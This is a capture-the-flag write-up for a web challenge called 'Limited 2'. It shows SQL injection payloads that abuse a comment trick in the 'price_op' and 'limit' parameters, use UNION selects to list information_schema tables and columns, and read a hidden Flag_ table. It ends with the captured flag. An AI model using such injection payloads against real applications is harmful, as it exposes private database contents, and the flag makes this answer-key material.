

# Limited 2

Note: This uses the same source as Limited 1.

Can you read the flag in another table?

That table name starts with Flag_

https://limited-app-974780027560.us-east5.run.app/

Author: SamXML

---
Note: If you haven't read `Limit 1` challenge yet, please read it [here]([Web]Limited1) before continuing as this challenge is the second in a series of 3 challenges.

# Solution

As the description said, we will dig into all tables, using UNION attack I wrote in the `Limit 1`.

```sql
?price_op==1/*&limit=*/ union select table_name,null,null,null from information_schema.tables
```


Alright, we cam see the `Flag_843423739` table at first, let's dig into it

```sql
/query?price_op==1/*&limit=*/ union select column_name,null,null,null from information_schema.columns where table_name='Flag_843423739'
```
and get the column `value`


So now just a simple query can get the flag

```sql
/query?price_op==1/*&limit=*/ union select value,null,null,null from Flag_843423739
```

# Flag: `wctf{r34d1n6_07h3r_74bl35_15_fun_96427235634}`